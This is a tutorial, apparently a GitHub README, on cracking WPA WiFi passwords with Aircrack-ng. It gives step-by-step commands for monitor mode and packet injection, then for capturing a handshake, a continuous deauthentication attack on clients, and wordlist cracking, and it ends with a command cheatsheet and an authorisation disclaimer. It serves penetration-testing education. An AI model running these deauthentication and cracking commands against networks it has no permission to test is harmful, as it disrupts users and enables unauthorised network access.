


## Aircrack-ng?

To make a long story short, Aircrack-ng is a network software suite consisting of WiFi security tools that can be used to assess the security of wireless networks. It focuses on different areas of WiFi security, including monitoring, attacking, testing, and cracking.

### Disclaimer

This guide is for educational purposes only. Unauthorized access to wireless networks is illegal and unethical. Always obtain permission from the network owner before attempting to access or test their network security.

Only crack your own network or a network where the owner has given you explicit permission.

## Hardware Requirements

To get started with Aircrack-ng, you'll need a compatible wireless network adapter that supports **monitor mode** and **packet injection**.

### Choosing the Right Adapter — Look at the Chipset

When buying a WiFi adapter for penetration testing, **the chipset matters more than the brand or model**. The chipset determines whether your adapter will work out of the box with Linux and support monitor mode and packet injection.

Some highly recommended chipsets include:

- **RTL8812AU** — Dual-band (2.4GHz + 5GHz), widely supported, great for most use cases
- **MT76** series (MediaTek) — Good Linux kernel support
- **Atheros AR9271** — Classic choice, excellent compatibility

For a comprehensive list of compatible adapters and detailed driver information, check out [morrownr's USB-WiFi repository](https://github.com/morrownr/USB-WiFi) — it's one of the most detailed resources available.

### Recommended Adapters

- [zSecurity Dual-Band USB Wireless Adapter (RTL8812AU)](https://zsecurity.org/product/zsecurity-dual-band-usb-wireless-adapter-2-4-5-ghz-realtek-rtl8812au/)
- [ALFA Kali Linux Compatible Adapters](https://www.alfa.com.tw/collections/kali-linux-compatible?view=all) — ALFA is my highly recommended place to buy Kali-compatible WiFi adapters.

### Checking Driver Support

Before purchasing, you can check if your Linux kernel already has the driver for a given chipset. For example, to check if the `mt76` driver is available:

```bash
modprobe -nv mt76
```

If the driver is available, you'll see output like:

```
insmod /lib/modules/6.19.10-zen1-1-zen/kernel/drivers/net/wireless/mediatek/mt76/mt76.ko.zst
```

This means the kernel can load the driver — no extra installation needed.

## Installing Aircrack-NG

You'll also need a computer with a GNU/Linux operating system, such as Kali Linux, which comes pre-installed with Aircrack-ng. Or you can install it yourself:

```bash
sudo pacman -S aircrack-ng
```

> Note: The commands below require root privileges. It's recommended to use `sudo` or switch to the root user.

## Testing Speed

You can run this command to test out how many passwords per second Aircrack can try.

```shell
sudo aircrack-ng -S
```

## Finding Your Wireless Interface

First, identify your wireless interface name:

```bash
ip a
```

Look for your wireless interface, it's usually named something like `wlan0`, `wlo1`, or it may be randomly generated. Verify it using `ifconfig` or `ip a` to ensure it's correct.

## Checking Card Status

Check if your wireless card supports monitor mode and recognizes the wireless interface:

```shell
iwconfig
```


## Starting Monitor Mode

Enable monitor mode on your wireless interface. This will disable your normal network connection:

```shell
sudo airmon-ng start <your-interface>
# sudo airmon-ng start wlan0
```


After enabling monitor mode, your interface will typically be renamed with a `mon` suffix (e.g., `wlan0mon`).

## Testing Packet Injection

Verify that your adapter supports packet injection:

```shell
sudo aireplay-ng -9 <your-interface-mon>
# eg: sudo aireplay-ng -9 wlan0mon
```

## Finding Target WiFi Network

Identify the WiFi network. You'll need the following information:

- **BSSID** (MAC address of the access point)
- **Channel** number
- **ESSID** (network name)

```shell
sudo airodump-ng <your-interface-mon>
# eg: sudo airodump-ng wlan0mon
```


## Creating Capture File

Capture data from the target network:

```shell
sudo airodump-ng -d <BSSID> -c <channel> -w <output> <your-interface-mon>
# e.g. sudo airodump-ng -d 11:22:33:44:55:66 -c 1 -w home wlan0mon
```


This saves capture files as `<output>-01.cap`, `<output>-02.cap`, etc. Keep this terminal running while you perform the next step.

## Performing Deauthentication Attack

This will disconnect clients from the WiFi network, forcing them to reconnect, which allows you to capture the WPA handshake (or PMKID). The handshake is necessary to crack the WiFi password. You can also use the captured handshake with other tools like Hashcat.

Open a **new terminal** and run:

```shell
sudo aireplay-ng --deauth 0 -a <BSSID> <your-interface-mon>
# eg: sudo aireplay-ng --deauth 0 -a 11:22:33:44:55:66 wlan0mon
```


Watch the first terminal, once you see `WPA handshake: <BSSID>`, you've captured it and can stop both commands.

## Deauthentication Is Not Always Required

Deauthentication is one way to force a client to reconnect in order to capture the handshake. However, you can also simply wait for a legitimate client to connect (or attempt a failed connection) and capture the handshake naturally.

>***Deauthentication essentially acts as a DoS attack against the AP, but it is not strictly required to crack the AP password.***

## Cracking the Password

Once you've captured the handshake or PMKID, use Aircrack-ng to crack the WiFi password:

```shell
sudo aircrack-ng <capture file> -w <wordlist>
# e.g. sudo aircrack-ng home-01.cap -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-05.txt
# You can use SecLists btw.
```


## Closing Monitor Mode

After you've finished testing the network security, stop the monitor mode on your wireless interface. Your normal network connection will be restored:

```shell
sudo airmon-ng stop <your-interface-mon>
# eg: sudo airmon-ng stop wlan0mon
```


## By the way

You can simply keep the `.cap` file, that's all you need to crack a WiFi password. You don't need to capture the handshake again. Just keep the `.cap` file. This file can also be shared with others, which makes the cracking process more flexible and can be done offline or anywhere.

## Quick Command Cheatsheet

| Command | Purpose |
|---------|---------|
| `ip a` | Find your wireless interface name |
| `iwconfig` | Check wireless card status |
| `airmon-ng start wlan0` | Enable monitor mode |
| `aireplay-ng -9 wlan0mon` | Test packet injection |
| `airodump-ng wlan0mon` | Scan nearby networks |
| `airodump-ng -d 11:22:33:44:55:66 -c 1 -w home wlan0mon` | Capture target traffic |
| `aireplay-ng --deauth 0 -a 11:22:33:44:55:66 wlan0mon` | Force clients to reconnect |
| `aircrack-ng <cap> -w /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-05.txt` | Crack captured handshake |
| `airmon-ng stop wlan0mon` | Disable monitor mode |
